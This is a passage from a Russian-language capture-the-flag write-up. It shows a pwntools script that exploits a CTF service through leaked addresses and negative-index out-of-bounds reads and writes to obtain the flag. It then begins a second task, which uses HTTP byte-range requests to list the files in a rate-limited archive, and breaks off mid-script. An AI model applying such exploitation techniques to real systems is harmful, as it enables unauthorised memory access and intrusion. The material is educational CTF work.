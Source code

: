 Эти действия и выполняет следующий скрипт (а для верности еще и получает нужное имя пользователя с сервера):
```python
#!/usr/bin/env python2

from pwn import *

#context.log_level = 'debug'

def main():
    r = remote('109.233.56.90', 11055)
    r.recvuntil(':')
    r.sendline('asdasd')
    r.recvuntil('>')
    r.sendline('debug')
    data = r.recvuntil('>').split('\r\n')
    storageaddr = int(data[0].split(' ')[1], 16)
    useraddr = int(data[1].split(' ')[2], 16)
    r.sendline('get')
    r.recvuntil(':')
    r.sendline('-%d' % ((storageaddr - 0x6020a0) / 8))
    validname = r.recvuntil('>').split('\r\n')[0].strip()
    r.close()

    r = remote('109.233.56.90', 11055)
    r.recvuntil(':')
    r.sendline(validname)
    r.recvuntil('>')
    r.sendline('debug')
    data = r.recvuntil('>').split('\r\n')
    storageaddr = int(data[0].split(' ')[1], 16)
    useraddr = int(data[1].split(' ')[2], 16)
    r.sendline('place')
    r.recvuntil(':')
    r.sendline('-%d' % ((storageaddr - useraddr) / 8))
    r.recvuntil(':')
    r.sendline('1')
    r.recvuntil('>')
    r.sendline('debug')
    r.recvuntil('>')    
    r.sendline('flag')
    print 'Flag:', r.recvline()
    r.close()

if __name__ == '__main__':
    main()
```

### Network 200 — Hugerar
В этом таске нам нужно получить флаг из архива в 10Гб, однако полностью мы его скачать не можем, так как скорость скачивания ограничена 1Кб/с. Попробуем обойти нужное ограничение.  
Прежде всего обращаем внимание на хидер `Accept-Ranges: bytes` в ответе сервера. Это означает, что мы можем обратиться к любому фрагменту файла, указав смещение начала и конце фрагмента. Далее обращаем внимание на то, что в архиве каждый файл упакован в отдельный блок. Таким образом, мы можем просто перечислить все файлы в этом архиве, обращаясь по нужным смещениям внутри каждого блока. Первый блок находится по смещению 0x14, а размер блока - сумма полей headersize и rawdatasize.
Пишем скрипт который перечислит все файлы в архиве:
```python
#!/usr/bin/env python2

import requests
import struct

def ParseBlock(data):
```